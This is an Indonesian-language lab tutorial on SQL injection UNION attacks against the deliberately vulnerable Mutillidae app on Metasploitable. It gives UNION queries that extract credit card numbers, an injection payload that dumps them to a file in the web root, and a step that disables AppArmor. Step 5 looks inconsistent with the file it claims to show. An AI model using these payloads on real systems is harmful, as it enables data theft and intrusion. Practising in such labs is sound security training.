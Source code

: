 ## Lesson 9 - SQL Injection Union Exploit \#2

### \# Penjelasan Database Union

* **Step 1** : Masuk ke dalam database Mutillidae di Metasploitable OS

```
su - root
mysql -uroot
use owasp10;
show tables;
```
didalam database terdapat tabel _accounts_ dan _credit_cards_. 2 tabel tersebut akan kita union kan. **UNION** adalah operasi penggabungan lebih dari satu hasil **SELECT** dalam SQL

* **Step 2** : Melakukan operasi UNION

Operasi UNION menampilkan di terminal
```
select * from accounts where username RLIKE '^[0-9]' union select ccid, ccnumber, ccv, expiration, null from credit_cards;
```
Operasi UNION mencetak di file yang berlokasi di **'/tmp/CCN.csv'**
```
select * from accounts where username RLIKE '^[0-9]' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO OUTFILE '/tmp/CCN.csv' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED by '\n';
\! cat /tmp/CCN.csv
```

### \# SQL Injection

* **Step 1** : Buka `http://10.151.36.64/mutillidae/` lalu masuk ke halaman user info. Pilih sidebar. OWASP Top 10 --&gt; A1 - SQL Injection --&gt; SQLi - Extract Data --&gt; User Info
  ![](/assets/lesson-7/VirtualBox_kali_19_12_2017_03_01_34.png)

* **Step 2** : Ubah ukuran text box username menjadi 100% menggunakan inspect element agar text box lebih panjang untuk menuliskan syntax SQL Injection.  
  ![](/assets/lesson-8/VirtualBox_kali_19_12_2017_20_37_43.png)

* **Step 3** : Matikan AppArmor pada Metasploitable OS dengan `sudo /etc/init.d/apparmor stop`
AppArmor dalam OS turunan Ubuntu berfungsi untuk membatasi resource dari aktivitas-aktivitas sistem. Hal ini agar MySQL memiliki akses read/write di directori web app.

* **Step 4** : Masukkan operasi sql di bawah di dalam textbox **Name** lalu tekan tombol _View Account Details_
```
' union select ccid,ccnumber,ccv,expiration,null from credit_cards INTO DUMPFILE '/var/www/mutillidae/CCN2.txt' FIELDS TERMINATED BY ',' OPTIONALLY ENCLOSED BY '"' LINES TERMINATED BY '\n' -- 
```
Dan jangan lupa untuk menambahkan 1 spasi diakhir, `"-- "`. Operasi ini adalah tidak akan menampilkan hasil, justru Authentication Error. Namun disisi lain akan membuat file **CCN2.txt**

* **Step 5** : Melihat hasil operasi dengan command berikut pada OS Metasploitable `cat /var/www/mutillidae/execute_command.php` 
